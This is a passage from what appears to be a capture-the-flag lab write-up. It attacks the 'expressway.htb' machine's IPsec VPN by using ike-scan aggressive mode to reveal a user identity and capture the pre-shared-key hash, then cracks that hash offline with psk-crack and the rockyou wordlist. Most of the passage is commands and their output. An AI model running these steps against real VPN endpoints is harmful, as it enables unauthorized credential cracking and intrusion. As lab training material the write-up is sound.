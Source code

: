 Let's see what we get.

```

tarting ike-scan 1.9.5 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.129.211.69 Aggressive Mode Handshake returned HDR=(CKY-R=a9ba19488d0dd2f6) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) KeyExchange(128 bytes) Nonce(32 bytes) ID(Type=ID_USER_FQDN, Value=ike@expressway.htb) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0) Hash(20 bytes)

Ending ike-scan 1.9.5: 1 hosts scanned in 0.017 seconds (60.36 hosts/sec). 1 returned handshake; 0 returned notify

```

We observe the peer identity: ike@expressway.htb, a useful discovery we can leverage in a targeted scan

```

> sudo ike-scan -A -P ike@expressway.htb 10.129.211.69

```

```

WARNING: gethostbyname failed for "ike@expressway.htb" - target ignored: Success
Starting ike-scan 1.9.5 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.129.211.69 Aggressive Mode Handshake returned HDR=(CKY-R=99a2e5a5558973ca) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) KeyExchange(128 bytes) Nonce(32 bytes) ID(Type=ID_USER_FQDN, Value=ike@expressway.htb) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0) Hash(20 bytes)

IKE PSK parameters (g_xr:g_xi:cky_r:cky_i:sai_b:idir_b:ni_b:nr_b:hash_r):

<IKE_PSK_HASH_REDACTED>

Ending ike-scan 1.9.5: 1 hosts scanned in 0.017 seconds (60.52 hosts/sec). 1 returned handshake; 0 returned notify

```

We successfully captured the IKE PSK handshake hash ready for cracking. Let's save the hash and crack it. Note: use **psk-crack**, not hashcat or John because the format is specific to ISAKMP aggressive mode and incompatible with standard password hashes.

```

$ psk-crack -d /usr/share/wordlists/rockyou.txt hash.txt

```

Let's see what we get out of it.

```

Starting psk-crack [ike-scan 1.9.5] (http://www.nta-monitor.com/tools/ike-scan/)
Running in dictionary cracking mode
key "<PASSWORD>" matches SHA1 hash <HASH>
Ending psk-crack: 8045040 iterations in 4.903 seconds (1640982.54 iterations/sec)

```
